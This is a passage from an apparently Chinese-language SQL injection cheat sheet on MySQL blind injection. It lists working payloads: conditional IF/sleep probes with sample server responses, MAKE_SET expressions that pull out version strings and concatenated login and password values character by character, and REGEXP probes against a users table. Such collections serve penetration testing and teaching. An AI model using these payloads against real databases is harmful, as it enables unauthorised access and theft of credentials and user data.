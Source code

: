### MYSQL 盲注使用条件语句

* TRUE: `if @@version 以 5 开头`:

    ```sql
    2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
    响应：
    HTTP/1.1 500 Internal Server Error
    ```

* FALSE: `if @@version 以 4 开头`:

    ```sql
    2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
    响应：
    HTTP/1.1 200 OK
    ```

### MYSQL 盲注与 MAKE_SET

```sql
AND MAKE_SET(VALUE_TO_EXTRACT<(SELECT(length(version()))),1)
AND MAKE_SET(VALUE_TO_EXTRACT<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(VALUE_TO_EXTRACT<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(VALUE_TO_EXTRACT<ascii(substring(concat(login,password),POS,1)),1)
```

### MYSQL 盲注与 LIKE

在 MySQL 中，`LIKE` 操作符可用于查询中的模式匹配。该操作符允许使用通配符来匹配未知或部分字符串值。这在盲 SQL 注入上下文中特别有用，当攻击者不知道存储在数据库中的数据的长度或具体内容时。

LIKE 中的通配符：

* **百分号** (`%`): 此通配符表示零个、一个或多个字符。它可以用来匹配任何字符序列。
* **下划线** (`_`): 此通配符表示单个字符。它用于更精确的匹配，当你知道数据结构但不知道特定位置的具体字符时。

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
SELECT * FROM products WHERE product_name LIKE '%user_input%'
```

### MySQL 盲注与 REGEXP

盲 SQL 注入也可以使用 MySQL 的 `REGEXP` 操作符进行，该操作符用于将字符串与正则表达式匹配。当攻击者想要执行比 `LIKE` 操作符所能提供的更复杂的模式匹配时，这种方法尤其有用。

| Payload | 描述 |
| --- | --- |
| `' OR (SELECT username FROM users WHERE username REGEXP '^.{8,}$') --` | 检查长度 |
| `' OR (SELECT username FROM users WHERE username REGEXP '[0-9]') --`   | 检查是否存在数字 |
| `' OR (SELECT username FROM users WHERE username REGEXP '^a[a-z]') --` | 检查是否以 "a" 开头 |

## MYSQL 基于时间的
